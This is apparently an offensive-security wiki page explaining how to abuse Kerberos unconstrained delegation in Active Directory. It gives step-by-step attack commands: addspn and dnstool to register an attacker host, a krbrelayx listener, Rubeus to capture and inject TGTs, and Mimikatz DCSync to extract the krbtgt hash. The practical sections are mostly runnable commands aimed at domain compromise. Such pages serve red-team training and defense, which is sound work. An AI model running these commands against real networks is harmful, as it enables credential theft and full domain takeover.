 # (KUD) Unconstrained

## Theory

If an account (user or computer), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it (or [force it](../../mitm-and-coerced-authentications/)) using Kerberos. The attacker service will receive an ST (service ticket) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user. Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

{% hint style="info" %}
Unconstrained delegation abuses are usually combined with an [MS-RPRN abuse (printerbug)](../../mitm-and-coerced-authentications/ms-rprn.md), [MS-EFSR abuse (petitpotam)](../../mitm-and-coerced-authentications/ms-efsr.md), [MS-FSRVP abuse (shadowcoerce)](../../mitm-and-coerced-authentications/ms-fsrvp.md), r [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.
{% endhint %}

![](../../../../.gitbook/assets/Kerberos\_delegations-unconstrained.drawio.png)

## Practice

{% tabs %}
{% tab title="From the attacker machine (UNIX-like)" %}
In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (i.e. of the compromised account) and add a DNS entry for that name.

This allows targets (e.g. Domain Controllers or Exchange servers) to authenticate back to the attacker machine.

All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and [krbrelayx](https://github.com/dirkjanm/krbrelayx) (Python).

{% hint style="info" %}
When attacking accounts able to delegate without constraints, there are two major scenarios

* **the account is a computer**: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by krbrelayx will be encrypted with AES256 (by default), attackers will need to either supply the right AES256 key for the unconstrained delegations account (`--aesKey` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments).
* **the account is a user**: users can't edit their own SPNs like computers do. Attackers need to control an [account operator](../../domain-settings/builtin-groups.md) (or any other user that has the needed privileges) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash (`-hashes` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments)
{% endhint %}

{% hint style="success" %}
By default, the salt is always

* **For users**: uppercase FQDN + case sensitive username = `DOMAIN.LOCALuser`
* **For computers**: uppercase FQDN + hardcoded `host` text + lowercase FQDN hostname without the trailing `$` = `DOMAIN.LOCALhostcomputer.domain.local`\
  `(using` DOMAIN.LOCAL\computer$ `account)`
{% endhint %}

```bash
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Start the krbrelayx listener (the AES key is used by default by computer accounts to decrypt tickets)
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'

# 4. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
```

{% hint style="warning" %}
In case, for some reason, attacking a Domain Controller doesn't work (i.e. error saying`Ciphertext integrity failed.`) try to attack others (if you're certain the credentials you supplied were correct). Some replication and propagation issues could get in the way.
{% endhint %}

Once the krbrelayx listener is ready, an [authentication coercion attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange), [PetitPotam](../../mitm-and-coerced-authentications/ms-efsr.md)) can be operated. The listener will then receive a Kerberos authentication, hence a ST, containing a TGT.

The TGT will then be usable with [Pass the Ticket](../ptt.md) (to act as the victim) or with [S4U2self abuse](s4u2self-abuse.md) (to obtain local admin privileges over the victim).
{% endtab %}

{% tab title="From the compromised computer (Windows)" %}
Once the KUD capable host is compromised, [Rubeus](https://github.com/GhostPack/Rubeus) can be used (on the compromised host) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.

```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../../mitm-and-coerced-authentications/) (e.g. [PrinterBug](../../mitm-and-coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../../mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)) can be operated. Rubeus will then receive an authentication (hence a Service Ticket, containing a TGT). The TGT can be used to request a Service Ticket for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Alternatively, the TGT can be used with [S4U2self abuse](s4u2self-abuse.md) in order to gain local admin privileges over the TGT's owner.

Once the TGT is injected, it can natively be used when accessing a service. For example, with [Mimikatz](https://github.com/gentilkiwi/mimikatz), to extract the `krbtgt` hash with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync).

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://stealthbits.com/blog/unconstrained-delegation-permissions/" %}

{% embed url="https://exploit.ph/user-constrained-delegation.html" %}

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" %}

